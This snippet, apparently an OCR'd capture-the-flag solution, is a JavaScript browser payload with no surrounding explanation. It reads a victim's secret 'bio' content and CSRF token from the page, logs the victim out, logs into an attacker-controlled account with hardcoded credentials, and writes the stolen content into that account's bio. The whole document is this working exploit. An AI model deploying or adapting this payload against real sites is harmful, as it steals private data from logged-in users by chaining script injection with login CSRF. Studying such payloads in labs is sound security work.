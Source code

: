     (async () => {
        let ret = await fetch(BASE)
            .then(r => r.text())
            .then(html => {
                let parser = new DOMParser();
                let doc = parser.parseFromString(html, "text/html");
                return [
                    doc.getElementById("bio").innerHTML,
                    doc.getElementById("csrf_token").getAttribute("value")
                ];
            });

        const flag = ret[0];
        let csrfToken = ret[1];

        let params = new URLSearchParams();
        params.append("csrf_token", csrfToken)
        fetch(BASE + "api/user/logout", {
            method: "POST",
            body: params
        });

        await wait(500);

        csrfToken = await fetch(BASE)
            .then(r => r.text())
            .then(html => {
                let parser = new DOMParser();
                let doc = parser.parseFromString(html, "text/html");
                return doc.getElementById("csrf_token").getAttribute("value");
            });

        await wait(500);

        params = new URLSearchParams();
        params.append("csrf_token", csrfToken);
        params.append("username", "ottoboni");
        params.append("password", "ottoboni");
        fetch(BASE + "api/user/login", {
            method: "POST",
            body: params
        });

        await wait(500);

        params = new URLSearchParams();
        params.append("csrf_token", csrfToken);
        params.append("bio", flag);
        fetch(BASE + "api/user/update", {
            method: "POST",
            body: params,
            credentials: "include"
        });
    })();
